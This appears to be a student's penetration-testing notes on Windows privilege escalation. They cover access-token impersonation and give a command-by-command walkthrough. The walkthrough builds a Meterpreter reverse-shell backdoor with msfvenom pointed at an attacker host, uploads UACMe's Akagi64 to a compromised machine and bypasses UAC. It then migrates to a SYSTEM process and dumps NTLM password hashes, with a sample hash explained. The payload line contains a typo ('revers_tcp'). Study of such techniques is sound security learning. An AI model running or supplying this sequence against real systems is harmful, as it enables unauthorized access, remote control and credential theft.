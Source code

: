 What UACMe akigai64 does:
-bypass UAC and get administrator privs (not to be confused with admin)

```bash
#generate the backdoor
msfvenom -p windows/meterpreter/revers_tcp LHOST=<myip> LPORT=<rndnum> -f exe > backdoor.exe
```

On the compromised system
```msfconsole
mkdir Temp
cd Temp
upload /root/Desktop/UACME/Akagi64.exe
upload /root/backdoor.exe


#on another msfconsole
use multi/handler
set ...... <match with the msfvenom payload>


#back on target machine using method 23 (33 is also cool)
shell
.\Akagi64.exe 23 backdoor.exe


#on the 2nd msfconsole terminal should pop out
ps 
migrate <some ps with NT authority/system>
hashdump
```
Note:
NTLM hashdump
Admin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::

Admin --> user
502 --> relative identifier (type of acct eg 500 is administrator 502 kerberos)
aad3c435b514a4eeaad3b935b51304fe --> LM hash, old version (for backword compatibility)
c46b9e588fa0d112de6f59fd6d58eae3 --> NTLM hash, more secure new version


## Access Token impersonation

--> created and managed by Local Security Authority Subsystem Servise (LSASS.exe)
--> Temporary key to provide access to a sys/resource (Like a webcookie)
--> created by winlogon.exe when someone logs on 
--> Token created is attached to userinit.exe process
--> all process created by said user will access this token for privs

--> two security levels of tokens
 - Impersonate-level --> created from non-interactive login (tru some service/domain logons)
	 - Can be used to impersonate token on the local system only (cant use externally)
 - Delegate-level --> created tru interactive login or remote access protocols like RDP (standard login methods)
	 - Largest threat as can be used to impersonate on any system

